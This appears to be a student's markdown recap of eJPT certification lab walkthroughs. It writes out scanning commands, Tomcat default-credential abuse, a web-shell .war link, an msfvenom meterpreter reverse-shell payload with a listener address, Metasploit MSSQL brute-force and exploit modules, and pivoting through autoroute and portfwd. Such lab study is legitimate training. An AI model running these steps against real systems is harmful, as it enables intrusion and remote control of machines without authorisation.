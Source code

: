## eJPT 🛠

Hey Hai, This is just a walkthrough and kinda recap of what in learnt during my INE prep course for Ejpt

### Inbuilt Labs
#### HTTPS Traffic Sniffing
- Once can actually sniff HTTP traffic only in clear using wireshark, we cant examine the HTTPS traffic
- Follow TCP Stream 
#### Find the Secret Server

### The Black Box Walkthrough's : Box 1

#### Machine 1
- fping -a -g network id with mask 2>/dev/null
- naabu -p - ip address
- sudo nmap -Pn -T4 --open -sS -sC -sV --min-rate=1000 --max-retries=3 -p- 172.16.64.140 -v  
- tomcat Enumeration http:ip:port/manager/html  ->   [tomcat:s3cret]
- Which helps you to upload a .war file and deploy it on the web-server [jsp web shell]
- https://github.com/BustedSec/webshell/blob/master/webshell.war
- This will lead to RCE, confirimg the base os is linux
- Creating a meterpreter payload and listen using metasploit
-  msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=172.16.64.10 LPORT=3211 -f elf > meter.elf
-  rename .elf to .war upload it, delpoy and this file can be relocated at /var/lib/tomcat8/webapps
-  mv /var/lib/tomcat8/webapps/meter.war /tmp/meter ls /tmp/meter chmod +x /tmp/meter
-  reverse shell at meterpreter listener

#### Machine 2
- sudo nmap -Pn -T4 --open -sS -sC -sV --min-rate=1000 --max-retries=3 -p- 172.16.64.140 -v  
- webserver on port 80
- dirb -u dirb http://172.16.64.140/  -> discovery a directory project, which requires uname and pass [rnadom pass admin:admin [correct]]
- dirb http://172.16.64.140/project/ -u admin:admin   [for further directory enum]
- revealed the flag path and DB credentials for next machine [fooadmin:fooadmin]
#### Machine 3
- Metasploit is ur bestie
- Search metasploit for sql version for scanners or exploits
- use auxiliary/scanner/mssql/mssql_login  [login check/bruteforce]
- use auxiliary/admin/mssql/mssql_enum     [enumeration]
- use exploit/windows/mssql/mssql_payload  [exploit]
- Gives us a meterpreter session

### The Black Box Walkthrough's : Remastered 1
#### Machine 1
- Enumeration reveals it's using V-CMS 1.0
- Search Metasploit, there will be an open exploit
- use exploit/linux/http/vcms_upload
- As mentioned it the question, the vcms server is connected to some other webserver on some other network

#### Machine 2
- cat /etc/hosts will reveal the other web server info/ or ifconfig will also gives info about the other network
- But, still we wont be able to ping the other network subnet
- run autoroute -s 192.69.228.0 -n 255.255.255.0 -> this adds route automatically to the meterprrter session
- route add 192.69.228.0 255.255.255.0 1  -> you can also use this where "1" is the meterpreter session id
- use auxiliary/scanner/portscan/tcp
- set PORTS 80, 8080, 445, 21, 22
- set RHOSTS 192.69.228.3-10
- exploit
- This will do a portscan on the remote network and reveals the open ports
- Then we need to portforward our local port to the remote port do a nmap scan
- portfwd add -l 1234 -p 21 -r 192.69.228.3  -> l [local port] p [parayvalla port] r [remote Ip]
- portfwd add -L [attacker machine IP] -l listening_port -p 80 -r [victim machine IP]
- nmap -sS -sV -p 1234 localhost
- This reveals a ftp service and version, using metasploit, we can find a inbuilt exploit, then boo tada


















